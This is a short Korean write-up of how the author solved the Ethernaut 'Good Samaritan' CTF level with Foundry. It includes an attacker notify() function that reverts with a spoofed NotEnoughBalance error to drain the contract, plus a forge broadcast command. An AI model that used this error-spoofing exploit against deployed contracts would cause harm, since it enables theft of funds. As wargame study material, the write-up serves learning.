

# Ethernaut Foundry로 풀기

## 27. Good Samaritan



drain하기

transferRemainder 를 실행시키면 되는데 
저거는 donate10에서 에러가 나게하는데 그 에러가 NotEnoughBalance면 된다. 
Coin컨트랙트 transfer에서 

```
if (amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if (dest_.isContract()) {
                // notify contract
                INotifyable(dest_).notify(amount_);
            }
        }
```
이 부분에 들어와서 dest_를 attack컨트랙트로 하고 notify함수에 NotEnoughBalance를 해주면 될거같다. 


나는 
```
    function notify(uint256 amount) external {
         revert NotEnoughBalance();
    }
```
이렇게 해주었는데 도무지 안되길래 좀 찾아보니 무조건 revert하면 오히려 안될수도있다고. 
```
    function notify(uint256 amount) external {
         if(amount <= 10)revert NotEnoughBalance();
    }
```
이것처럼 조건 달아주니 해결. amount로 10 들어오니까 그냥 10으로 해도될듯.

//forge script script/Level27Solution.s.sol -vv --tc GoodSamaritanSolution --private-key $PRIVATE_KEY --broadcast